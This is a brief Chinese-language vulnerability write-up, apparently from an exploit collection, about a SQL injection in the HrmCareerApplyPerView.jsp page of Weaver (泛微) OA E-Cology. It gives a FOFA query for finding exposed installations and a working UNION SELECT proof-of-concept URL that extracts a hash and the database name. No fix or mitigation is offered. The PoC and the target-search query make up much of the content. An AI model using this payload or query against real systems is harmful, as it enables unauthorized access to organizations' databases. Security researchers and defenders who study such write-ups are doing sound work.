

# 泛微OA E-Cology HrmCareerApplyPerView.jsp SQL注入漏洞

## 漏洞描述

泛微OA E-Cology HrmCareerApplyPerView.jsp 文件存在SQL注入漏洞，攻击者通过漏洞可以获取服务器数据库敏感文件

## 漏洞影响

```
泛微OA E-Cology
```

## FOFA

```
app="泛微-协同办公OA"
```

## 漏洞复现

登录页面


验证POC

```
/pweb/careerapply/HrmCareerApplyPerView.jsp?id=1 union select 1,2,sys.fn_sqlvarbasetostr(HashBytes('MD5','abc')),db_name(1),5,6,7
```

